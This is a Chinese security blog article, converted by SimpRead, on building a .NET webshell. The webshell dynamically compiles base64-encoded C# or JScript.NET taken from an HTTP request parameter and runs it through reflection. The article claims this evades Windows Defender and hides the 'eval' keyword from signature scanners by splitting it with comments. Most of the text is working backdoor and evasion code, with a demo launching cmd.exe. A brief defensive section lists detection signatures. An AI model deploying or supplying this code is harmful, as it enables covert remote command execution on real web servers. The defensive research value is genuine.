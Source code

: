 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.anquanke.com](https://www.anquanke.com/post/id/234449)

[![](https://p1.ssl.qhimg.com/t01d80343a6c9721356.png)](https://p1.ssl.qhimg.com/t01d80343a6c9721356.png)

一、前言
----

当下主流的 Waf 或 Windows Defender 等终端杀软、EDR 大多都是从特征码查杀，在. Net 和 VBS 下一句话木马中最常见的特征是 eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开 eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从. NET 内置的 CodeDomProvider 类下手实现动态编译. NET 代码，指明 JScrip 或者 C# 作为编译语言，编译的 WebShell 目前 Windows Defender 不会查杀。而防御者从流量或终端识别 “CodeDomProvider.CreateProvider、CreateInstance” 等特征码。

二、动态编译
------

.Net 可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类 CodeDomProvider 和 CompilerParameters，前者相当于编译器，后者相当于编译器参数，CodeDomProvider 支持多种语言（如 C#、VB、Jscript），编译器参数 CompilerParameters.GenerateExecutable 默认表示生成 dll，GenerateInMemory= true 时表示在内存中加载，CompileAssemblyFromSource 表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过 CreateInstance 实例化对象并反射调用自定义类中的方法。

```
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```

三、落地实现
------

上述代码里的 SourceText 方法需提供编译的 C# 源代码，笔者创建了 NeteyeInput 类，如下

```
public static string SourceText(string txt)
        {
            StringBuilder sb = new StringBuilder();
            sb.Append("using System;");
            sb.Append(Environment.NewLine);
            sb.Append("namespace  Neteye");
            sb.Append(Environment.NewLine);
            sb.Append("{");
            sb.Append(Environment.NewLine);
            sb.Append("    public class NeteyeInput");
            sb.Append(Environment.NewLine);
            sb.Append("    {");
            sb.Append(Environment.NewLine);
            sb.Append("        public void OutPut()");
            sb.Append(Environment.NewLine);
            sb.Append("        {");
            sb.Append(Environment.NewLine);
            sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
            sb.Append(Environment.NewLine);
            sb.Append("        }");
            sb.Append(Environment.NewLine);
            sb.Append("    }");
            sb.Append(Environment.NewLine);
            sb.Append("}");
            string code = sb.ToString();
            return code;
        }
```

类里声明了 OutPut 方法，该方法里通过 Base64 解码得到输入的原生字符串，笔者在这里以计算器作为演示，将 “System.Diagnostics.Process.Start(“cmd.exe”,”/c calc”);” 编码为

```
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序 ProcessRequest 方法中调用

```
public void ProcessRequest(HttpContext context)
        {
            context.Response.ContentType = "text/plain";
            if (!string.IsNullOrEmpty(context.Request["txt"]))
            {
                DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
                context.Response.Write("Execute Status: Success!");
            }
            else
            {
                context.Response.Write("Just For Fun, Please Input txt!");
            }
        }
```

[![](https://p3.ssl.qhimg.com/t013d269c27c386b464.gif)](https://p3.ssl.qhimg.com/t013d269c27c386b464.gif)

四、其他方法
------

*   **Jscript.Net 动态编译拆解 eval**

在. NET 安全领域中一句话木马主流的都是交给 eval 关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要避开 eval，而在. NET 中 eval 只存在于 Jscript.Net，所以需要将动态编译器指定为 Jscript，其余和 C# 版本的动态编译基本一致，笔者通过插入无关字符将 eval 拆解掉，代码如下

```
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            {
                public static function RunExp(expression : String) : String
                {
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                }
            }";
```

只需在编译的时候替换掉无关字符串 “/_[@Ivan1ee](https://github.com/Ivan1ee "@Ivan1ee")@_/”，最后编译后反射执行目标方法。

```
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```

五、防御措施
------

*   一般 web 应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance 等等，一旦告警需格外关注；
*   由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下 dll 文件内容的监控；
*   文章涉及的代码已经打包在 “[https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)“